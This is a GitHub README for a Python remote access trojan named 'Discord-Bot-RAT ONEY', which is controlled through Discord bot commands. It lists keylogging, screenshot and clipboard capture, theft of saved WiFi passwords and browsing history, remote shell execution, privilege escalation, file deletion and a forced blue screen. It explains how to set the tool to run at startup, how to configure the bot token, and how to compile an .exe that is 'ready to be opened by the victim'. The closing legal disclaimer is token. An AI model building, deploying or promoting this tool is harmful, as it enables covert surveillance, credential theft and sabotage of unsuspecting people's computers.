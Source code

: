 # Discord-Bot-RAT ONEY

[![Python](https://img.shields.io/badge/Python-3.8%2B-3776AB?logo=python&logoColor=white)](https://python.org)
[![Platform](https://img.shields.io/badge/Platform-Windows-0078D6?logo=windows&logoColor=white)](https://www.microsoft.com/windows)
[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg?logo=gnu&logoColor=white)](https://www.gnu.org/licenses/gpl-3.0)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

A remote Discord-based administration system.


![preview](ignore/preview.png)


## 🌟 Feature Highlights

### 🕵️‍♂️ Surveillance Module
| Feature | Command | Preview |
|---------|---------|---------|
| Screen Capture | `!screen` | Screenshot |
| Keylogger | `!log`/`!stoplog` | `[LOG] Keys: [Enter]T[E]S[T]` |
| Clipboard | `!clipboard` | Copies current clipboard |

Runs in the background, sets itself to run at startup, checks if user is connected to the internet before running main code.

### 💻 System Control
```
!exec ipconfig        # Remote command execution
!su                   # Privilege escalation
!bsod                 # Blue screen of death trigger

 Hardware Inventory
!cpu                  # CPU specs
!ram                  # Memory (GB) 
!drives               # Storage analysis

 Network Recon
!ip                   # IP address
!wifi                 # Connected networks
!dns                  # DNS configuration

and more! (check below)
```
## 🚀 Deployment

Requirements
```
pip install -r requirements.txt

python oney.py
```
File extension can be modified to:
```
.py for console logs. (you need the requirements installed on the victims pc.)

.pyw discrete. (you need the requirements installed on the victims pc, compilation in onefile might not work.)

.exe if you compile it with pyinstaller. (Recommended! no requirements or python needed, just an .exe file ready to be opened.)
```
 ## 📜 Full Command Reference

    commands_list = [
        ('!screen', 'Capture and send a screenshot'),
        ('!ip', 'Get the IP address'),
        ('!clipboard', 'Show clipboard content'),
        ('!exec <command>', 'Run a shell command'),
        ('!shutdown', 'Shutdown the computer'),
        ('!bsod', 'Trigger a BSOD (WARNING)'),
        ('!msg <message>', 'Show a Windows message box'),
        ('!url <url>', 'Open a URL in browser'),
        ('!restart', 'Restart the computer'),
        ('!cancelrestart', 'Cancel a scheduled restart'),
        ('!log', 'Start keylogging (sends every 15s)'),
        ('!stoplog', 'Stop keylogging'),
        ('!ls', 'List files in the current directory'),
        ('!cd <path>', 'Change the current directory'),
        ('!rm <filename>', 'Delete a file'),
        ('!rmd <dirname>', 'Delete a directory'),
        ('!download <filename>', 'Download a file'),
        ('!uuid', 'Get the system UUID'),
        ('!mac', 'Get MAC addresses'),
        ('!dns', 'Get DNS server info'),
        ('!wifi', 'Show connected WiFi info'),
        ('!wifi_passwords', 'Show saved WiFi passwords'),
        ('!systeminfo', 'Show system information'),
        ('!cpu', 'Show CPU information'),
        ('!gpu', 'Show GPU information'),
        ('!ram', 'Show RAM information in GB'),
        ('!drives', 'Show drives information in GB'),
        ('!hostname', 'Show the hostname'),
        ('!osinfo', 'Show OS version'),
        ('!user', 'Show current user'),
        ('!recent [browser]', 'Show recently visited websites'),
        ('!su', 'Request administrator privileges')
    ]

## 🛠 Discord Bot Setup Guide
1. Create a Discord Application


Go to the Discord Developer Portal https://discord.com/developers/applications

Click "New Application" → Name it (e.g., "oney") → Click "Create"

2. Give Administrator


Navigate to the "Bot" tab in left sidebar


Click Administrator down below

3. Configure Bot Permissions


Under "Privileged Gateway Intents", enable:
```
✅ Presence Intent

✅ Server Members Intent

✅ Message Content Intent

```
Copy your Bot Token (click "Reset Token" if blank)

4. Invite Bot to Your Server


Go to "OAuth2" → "URL Generator"

Select these scopes:
```
bot

applications.commands
```
Set these permissions (checkboxes):
```
Administrator
```
Copy the generated URL and visit it in your browser

## Configuration
Edit python file:

```
  "token": "token"
  ```
   Replace token with your discord bot token. get it from https://discord.com/developers/applications

## Production (Recommended)
```
pip install pyinstaller

pip install -r requirements.txt

pyinstaller --onefile --windowed oney.py

# you can add --icon=icon.ico before oney.py for a custom icon (icon has to be in the same folder and has to be named "icon" with the extension ".ico").
```
This will generate a .exe file in the dist folder ready to be opened by the victim, no requirements or python needed to open it.


# ⚖️ Legal Compliance

Warning

This tool is only for:
```
Authorized pentesting

Educational research

System administration
```
Document all consent before use.
Violations may incur penalties under:
```
CFAA (18 U.S. Code § 1030)

GDPR Article 5

Local computer crime laws
```
